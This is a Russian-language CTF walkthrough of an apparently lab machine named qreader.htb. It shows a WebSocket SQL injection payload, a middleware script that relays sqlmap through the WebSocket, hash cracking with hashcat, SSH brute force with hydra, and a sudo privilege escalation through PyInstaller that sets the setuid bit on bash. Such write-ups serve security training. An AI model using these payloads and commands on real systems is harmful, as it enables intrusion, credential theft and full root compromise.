







# Soccer

:white_check_mark:  [**WebSocket SQLI script correction**](#WebSocketSQLI)

:white_check_mark:  [**Username Generator**](#UsernameGenerator)

:white_check_mark:  [**Pyinstaller(privesc)**](#Pyinstaller(privesc))
___

## Port scan
Сканируем ip командами:
```
nmap -Pn -p 1-10000  qreader.htb

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5789/tcp open  unknown
```

```
nmap -A -p 22,80,5789 qreader.htb

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
5789/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions: 
|     HTTP/1.1 400 Bad Request
|     Date: Sat, 01 Jul 2023 15:00:35 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   Help, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Date: Sat, 01 Jul 2023 15:00:52 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Date: Sat, 01 Jul 2023 15:00:36 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|_    Failed to open a WebSocket connection: did not receive a valid HTTP request.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5789-TCP:V=7.94%I=7%D=7/1%Time=64A03F9E%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x2001
SF:\x20Jul\x202023\x2015:00:35\x20GMT\r\nServer:\x20Python/3\.10\x20websoc
SF:kets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/plain\r\nC
SF:onnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocket\x20co
SF:nnection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20request\.\n
SF:")%r(GetRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Sat,
SF:\x2001\x20Jul\x202023\x2015:00:35\x20GMT\r\nServer:\x20Python/3\.10\x20
SF:websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/plai
SF:n\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocket
SF:\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20reque
SF:st\.\n")%r(HTTPOptions,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\
SF:x20Sat,\x2001\x20Jul\x202023\x2015:00:35\x20GMT\r\nServer:\x20Python/3\
SF:.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20te
SF:xt/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20We
SF:bSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x
SF:20request\.\n")%r(RTSPRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nDate:\x20Sat,\x2001\x20Jul\x202023\x2015:00:36\x20GMT\r\nServer:\x20Py
SF:thon/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type
SF::\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20
SF:a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x2
SF:0HTTP\x20request\.\n")%r(Help,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nDate:\x20Sat,\x2001\x20Jul\x202023\x2015:00:52\x20GMT\r\nServer:\x20Py
SF:thon/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type
SF::\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20
SF:a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x2
SF:0HTTP\x20request\.\n")%r(SSLSessionReq,F4,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nDate:\x20Sat,\x2001\x20Jul\x202023\x2015:00:52\x20GMT\r\nServ
SF:er:\x20Python/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nCon
SF:tent-Type:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x2
SF:0open\x20a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x2
SF:0valid\x20HTTP\x20request\.\n");
Service Info: Host: qreader.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Из вывода nmap, мы можем заметить, что на порте 5789 стоит WebSocket.

<a name="WebSocketSQLI"></a>

## WebSocket SQLI script correction

На данном [сайте](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) мы можем найти скрипт, который будет преобразовывать запросы. Запустим скрипт и затем запустим sqlmap на локальный сервер, созданный скриптом. Атака пройдет неудачно. 

Попробуем отправить запрос через браузер и перехватим его.


Мы можем заметить в ответе, что нам доступны функции /update и /version.

Скачаем [клиент](https://github.com/websockets/wscat) для WebSocket.

Путем перебора параметров, мы можем заметить, что сервер дает в ответе версию.



Попробуем отправить номер версии, который мы получили.


Мы получили данные. Теперь же попробуем найти SQL Injection, отправив данную полезную нагрузку.



```
{"version":"0.0.2\" union all select NULL,NULL,NULL,NULL--"}
```

Изменим скрипт, который мы использовали для связи с WebSocket-ом.
```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://10.10.11.206:5789/version"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	message = unquote(payload).replace("'",'\\\"')	
	data = '{"version":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/version?version=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

Запустим скрипт и снова воспользуемся sqlmap:

```
sqlmap -u http://localhost:8081/version?version=0.0.2 --batch -dbs
```



Sqlmap успешно отработал. Попробуем вытащить пользовательские данные.

```
sqlmap -u http://localhost:8081/version?version=0.0.2 --batch -dump
```


Мы получили хэш пароля пользователя.

Раскодируем хэш, используя hashcat.

```
hashcat -m 0 hash --wordlist /usr/share/wordlists/rockyou.txt
```



<a name="UsernameGenerator"></a>

## Username Generator

Попробовав подключиться по ssh с именем пользователя admin и известным паролем, получим ошибку.

Из вывода sqlmap мы также получили сообщения пользователей, который использовали с имена при обращении. Соберем имена этих пользователей и создадим на основе этого список имен пользовалетел для брута через hydra.

```
Jason
Json
Mike
Thomas Keller
admin
```

На данном [сайте](https://dzmitry-savitski.github.io/2020/04/generate-a-user-name-list-for-brute-force-from-first-and-last-name) мы можем найти правила для JohnTheRipper, которые сгенерируют нам список.

Сгенерировав список, воспользуемся hydra для брута.

```
hydra -L usernames.txt -p denjanjade122566 ssh://10.10.11.206
```



Подключаемся по ssh.

<a name="Pyinstaller(privesc)"></a>

## Pyinstaller(privesc)

Просмотрим права на выполнение командом **sudo -l**.



Некий скрипт build-installer доступен нам для запуска от sudo. Просмотрим одержимое скрипта.


Мы можем заметить, что при использовании флага make и файла с расширением .py скрипт обработает наш файл, используя pyinstaller.

Создадим файл 1.py со следующим содержимым:

```
import os
os.system('chmod +s /bin/bash')
```

Запустим скрипт из директории с нашим файлом.

```
sudo /usr/local/sbin/build-installer.sh make 1.py
```



Скрипт успешно отработал. Используем команду **bash -p** для получения root.


